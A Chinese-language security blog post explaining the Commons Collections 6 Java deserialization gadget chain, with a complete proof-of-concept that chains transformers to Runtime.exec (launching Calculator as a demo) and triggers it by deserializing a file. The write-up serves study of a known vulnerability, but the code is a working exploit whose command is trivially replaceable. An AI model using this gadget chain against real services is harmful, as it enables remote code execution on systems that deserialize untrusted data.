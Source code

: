 # CommonsCollections6链详解

  
  
世界上最好用的 CC 链  
&lt;!--more--&gt;  
## CommonsCollections6 详解  
CommonsCollections1 的链子调用了`LazyMap`类中的`transform()`方法，于是找一个任意类调用`get()`方法的地方，这里换到了`TideMapEntry`类  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151516691.png)  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151516403.png)  
这里的`hashCode()`方法里调用了`getValue()`方法里面调用了`get()`方法，并且`map`可控，这里的`hashCode()`很熟悉，因为在`URLDNS`链中`HashMap`类里的`readObject()`方法调用到了`hashCode()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151518932.png)  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151518990.png)  
于是构造`poc`  
```java  
package org.example.CommonsCollections;    
    
import org.apache.commons.collections.Transformer;    
import org.apache.commons.collections.functors.ChainedTransformer;    
import org.apache.commons.collections.functors.ConstantTransformer;    
import org.apache.commons.collections.functors.InvokerTransformer;    
import org.apache.commons.collections.keyvalue.TiedMapEntry;    
import org.apache.commons.collections.map.LazyMap;    
    
import java.io.FileInputStream;    
import java.io.FileOutputStream;    
import java.io.ObjectInputStream;    
import java.io.ObjectOutputStream;    
import java.lang.reflect.Field;    
import java.util.HashMap;    
import java.util.Map;    
    
public class CommonsCollections6 {    
    public static void main(String[] args) throws Exception{    
    
    
        Transformer[] transformers = new Transformer[]{    
                new ConstantTransformer(Runtime.class),    
                new InvokerTransformer(&#34;getMethod&#34;, new Class[]{String.class, Class[].class}, new Object[]{&#34;getRuntime&#34;, null}),    
                new InvokerTransformer(&#34;invoke&#34;, new Class[]{Object.class, Object[].class}, new Object[]{null, null}),    
                new InvokerTransformer(&#34;exec&#34;, new Class[]{String.class}, new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})    
        };    
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);    
    
        HashMap&lt;Object, Object&gt; map = new HashMap&lt;&gt;();    
        Map&lt;Object, Object&gt; lazymap = LazyMap.decorate(map, new ConstantTransformer(1));    
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap, &#34;test&#34;);    
    
        HashMap&lt;Object, Object&gt; map2 = new HashMap&lt;&gt;();    
        map2.put(tiedMapEntry,&#34;test1&#34;);    
    
        lazymap.remove(&#34;test&#34;);    
    
        Class c = LazyMap.class;    
        Field factoryField = c.getDeclaredField(&#34;factory&#34;);    
        factoryField.setAccessible(true);    
        factoryField.set(lazymap,chainedTransformer);    
        //serialize(map2);    
        unserialize(&#34;ser.bin&#34;);    
    
    }    
    public static void serialize(Object obj) throws Exception{    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;ser.bin&#34;));    
        oos.writeObject(obj);    
    }    
    
    public static Object unserialize(String filename) throws Exception{    
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));    
        Object obj = ois.readObject();    
        return obj;    
    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151528159.png)  
  

---

> Author: N1Rvana  
> URL: http://localhost:1313/commonscollections6%E9%93%BE%E8%AF%A6%E8%A7%A3/  

